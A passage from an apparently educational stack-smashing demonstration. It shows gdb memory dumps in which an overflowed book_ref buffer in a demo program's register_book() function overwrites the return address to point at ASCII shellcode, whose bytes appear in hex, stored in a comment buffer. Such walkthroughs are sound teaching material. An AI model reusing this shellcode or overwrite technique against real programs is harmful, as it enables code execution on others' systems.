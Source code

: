 ```text
0xffffddd0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdde0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffddf0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffde00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffde10:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffde20:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffde30:     0x00000001      0x0804c000      0xffffde48      0x08049383
=> 0x8049255 <register_book+159>:       call   0x8049040 <fgets@plt>

```

Then, the demo breaks in the `register_book()` after the stack smaching. The
following `gdb` output is displayed and shows at 0xffffde24 the data which
overflow the `b_info.book_ref` buffer and overwrite the return address of the
`register_book()` function. The bytes at 0xffffdc24 are the ASCII shellcode
store in the `b_info.comment` buffer.

```text
[+] Enter a book commentary:

Breakpoint 3, 0x080492b5 in register_book ()
0xffffdc10:     0xffffdc24      0x000001ff      0xf7f9d580      0x080491c5
0xffffdc20:     0x83743139      0x5a2d5854      0x2d5a5a5a      0x5a5a5a78
0xffffdc30:     0x4b4c6a2d      0x255c504b      0x52525252      0x25252525
0xffffdc40:     0x4a4b2d25      0x352d4a4a      0x50252525      0x556f6f2d
0xffffdc50:     0x556f2d55      0x4f2d3625      0x50373442      0x7676762d
0xffffdc60:     0x76762d56      0x382d4a76      0x2d253825      0x2533254c
0xffffdc70:     0x73252d50      0x252d7373      0x2d737348      0x72342d37
0xffffdc80:     0x50502d50      0x502d7650      0x2d76504d      0x6d65634f
0xffffdc90:     0x72722d50      0x422d7272      0x2d427242      0x4b544b6e
0xffffdca0:     0x4f682d50      0x682d6825      0x2d682525      0x53343350
0xffffdcb0:     0x754d2d50      0x342d6568      0x50257a7a      0x3232352d
0xffffdcc0:     0x5f252d32      0x252d3232      0x504a3776      0x5959592d
0xffffdcd0:     0x59592d59      0x4e2d5959      0x50444d56      0x0000000a
0xffffdce0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdcf0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd10:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd20:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd30:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd50:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd60:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd70:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd80:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd90:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdda0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffddb0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffddc0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffddd0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdde0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffddf0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffde00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffde10:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffde20:     0x00000000      0x41414141      0x41414141      0x41414141
0xffffde30:     0x41414141      0x41414141      0x41414141      0xffffdc24
=> 0x80492b5 <egister_book+255>:       call   0x8049060 <strlen@plt>
```
